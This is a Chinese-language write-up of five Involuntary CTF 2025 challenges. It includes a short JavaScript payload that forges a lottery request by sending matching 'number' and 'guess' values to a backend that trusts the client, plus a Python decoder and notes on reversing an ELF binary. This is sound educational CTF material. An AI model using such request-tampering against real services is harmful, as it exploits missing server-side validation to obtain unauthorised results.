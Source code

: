```yaml
---
title: Involuntary CTF 2025 Writeup
published: 2025-06-30
category: CTF
licenseName: "Unlicensed"
author: xzhiyouu
sourceLink: "https://hackmd.io/@xzhiyouu/r1PoSf6Nxl"
draft: false
---
```

> rank: 64/785

~~剛段考完~~想說來耍費一下打個CTF
解了五題之後就跑去弄生科期末報告了

![image](https://hackmd.io/_uploads/HyMQLfT4eg.png)

![image](https://hackmd.io/_uploads/S1hGGG1Bel.png)


## misc
### First steps [50]
![image](https://hackmd.io/_uploads/H1AdLza4eg.png)

Flag: `!FLAG!{H4ckers_f1rst_st3ps}!FLAG!`

---

## web exploitation
### Lottery [250]
![image](https://hackmd.io/_uploads/H1Pp8G6Egl.png)

進去之後是個猜數字的網頁
但猜對的機率是10^19分之1
翻原始碼發現這段 javascript
```javascript=
<script>
        function isNumeric(value) {
            return /^-?\d+$/.test(value);
        }

        async function lottery() {
            string = document.getElementById("userString").value;
            output = document.getElementById("display");
            if (!isNumeric(string)) {
                output.innerHTML = "Must enter a number";
            }
            else {
                randomNum=Math.random().toString();
                console.log(randomNum);
                randomNum = randomNum.substr(2,randomNum.length);

                resultjson=""
                try {
                    const response = await fetch("/rollthedice/flag", {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json',
                        },
                        body: JSON.stringify({number:randomNum,guess:string}),
                    });


                    if (response.ok) {
                        const result = await response.json();
                        resultjson = await result.flag
                        

                    } else {
                        console.error('Error:', response.status, response.statusText);
                    }
                } catch (error) {
                    console.error('Error:', error.message);
                }

                output.innerHTML=resultjson;
            }
        }
    </script>
```

其實他後端沒有驗證 `randomNum` 是亂數生出來的，也就是說，只要自己指定 `number` 和 `guess` 一樣的話，就可以拿到 flag
#### Exploit Payload
```javascript=
(async () => {
    const number = "13371337";
    const res = await fetch("/rollthedice/flag", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify({ number, guess: number })
    });

    const { flag } = await res.json();
    console.log(flag);
})();

```
![image](https://hackmd.io/_uploads/rkKc_f64ge.png)

Flag: `!FLAG!{N0t_so_r4nd0m!!}!FLAG!`

---

## reversing
### Basic python [100]
![image](https://hackmd.io/_uploads/r1BCOzpNxg.png)
* `basicPython.py`
```python=
def getFLag():
    file=open("flag.txt","rt")
    fileContents=file.read().strip()
    return fileContents

def main():
    a=getFLag()
    b=[]
    for i in range(len(a)):
        if(i%2==0):
            b.append(ord(a[i])+i)
        else:
            b.append(ord(a[i])-i)

    for i in range(len(b)//2):
        temp=b[-i]
        b[-i]=b[i]
        b[i]=temp

    print(b)

main()
```
* `solve.py`
```python=
def decrypt():
    e = [33, 73, 32, 103, 39, 106, -2, 159, 0, 151, 80, 140, 66, 128, 87, 78,
         79, 119, 27, 117, 8237, 95, 91, 133, 80, 135, 80, 130, 39, 116,
         105, 105, 110, 56, 71, 129, 28, 75, 62, 78, 69]
    
    i = 0
    while i < len(e) // 2:
        if i != 0:
            tmp = e[i]
            e[i] = e[-i]
            e[-i] = tmp
        i += 1

    out = []
    i = 0
    while i < len(e):
        if i % 2 == 0:
            n = e[i] - i
        else:
            n = e[i] + i
        if 0 <= n <= 0x10FFFF:
            out.append(chr(n))
        else:
            out.append('?')
        i += 1

    return ''.join(out)

print(decrypt())
```
Flag: `!FLAG!{N0w_th4t_wasn’t_2_h4rd_now!}!FLAG!`

### this flaG Doesn't Bite [250]
![image](https://hackmd.io/_uploads/BySOqMpExl.png)

他問說輸出是 `2d5a0b1c0e2f3d3e` 時，輸入了什麼訊息
先檢查檔案，給了一個ELF檔案
```bash
xzhiyouu@DESKTOP-9SMADFC:~/involuntaryCTF$ file a.out
a.out: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c6a48156a92ad43bae82d99aa054f24cac1eb4db, for GNU/Linux 3.2.0, not stripped
```
用 `r2` 分析一下
跳到 `0x11a0` 然後 `pd` 反編譯
大概會長這樣
![image](https://hackmd.io/_uploads/r1Uy3f64xg.png)

Flag: `!FLAG!{D3bugFTW}!FLAG!`

---

## cryptography
### Enter the crypt [100]
![image](https://hackmd.io/_uploads/HkUN2GpEeg.png)

用頻率分析解

Flag: `!FLAG!{Fr3quency_4n4lysis}!FLAG!`
